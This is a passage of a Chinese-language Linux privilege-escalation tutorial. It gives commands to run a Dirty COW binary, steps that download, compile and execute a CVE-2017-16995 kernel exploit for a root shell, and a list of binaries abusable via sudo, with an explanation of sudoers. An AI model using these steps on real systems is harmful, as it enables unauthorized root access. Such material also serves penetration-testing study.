 3.执行脚本  

```
./dcow -s
./dcow -h

```

#### 4、CVE-2017-16995 ubuntu内核漏  
  
**1)影响版本**  

```
Linux Kernel Version 4.14-4.4 （主要影响Debian和Ubuntu发行版，Redhat和CentOS不受影响）

```

  
2)利用步骤  

```
Linux本地内核提权 CVE-2017-16995
从网上下载exp，或者kali导出exp上传到提权主机上。
wget https://github.com/brl/grlh/archive/master.zip
编译：
gcc get-rekt-linux-hardened.c -o exp
gcc 45010.c -o 45010   编译
chmod +x 45010         增加权限
./45010                         执行脚本返回root权限shell
id

```

#### 5、滥用sudo导致的提权(需要普通用户可以sudo执行某些命令，又名sudo 提权)  
  
**以下这些程序如果被配置使用root权限启动，且该第三方服务或者程序存在漏洞或者配置问题，那么就可以被利用来获得root权限**  
。** 并且还要知道当前用户的密码 **  
  
可以利用sudo提权的命令如下 ：  

```
wget、find、cat、apt、zip、xxd、time、taskset、
git、sed、pip、ed、tmux、scp、perl、bash、
less、awk、man、vi、env、ftp

```

  
sudo是linux系统管理指令，是允许系统管理员让普通用户执行一些或者全部的root命令的一个工具，如halt，reboot，su等等。换句话说通过此命令可以让非root的用户运行只有root才有权限执行的命令。  
  
是不是每一个新创建的用户都可以使用sudo提升命令的权限呢？如果不是那么哪些用户可以使用此命令呢？要想使一个用户具有使用sudo的能力，需要让root用户将其名字、可以执行的特定命令、按照哪种用户或用户组的身份执行等信息注册到/etc/sudoers文件中，即完成对该用户的授权（此时该用户称为“sudoer”）才可以。  
  
当一般用户执行特殊权限时，在命令前加上 sudo，此时系统会让你输入密码以确认终端机前操作的是你本人，确认后系统会将该命令的进程以超级用户的权限运行。  
  
在一定的时间段内，再次执行sudo的命令时不再询问密码，超出此时间段（一般为5分钟）后需要再次输入密码。  
  
在Linux/Unix中，/etc/sudoers文件是sudo权限的配置文件，其中储存了一些用户或组可以以root权限使用的命令。  
  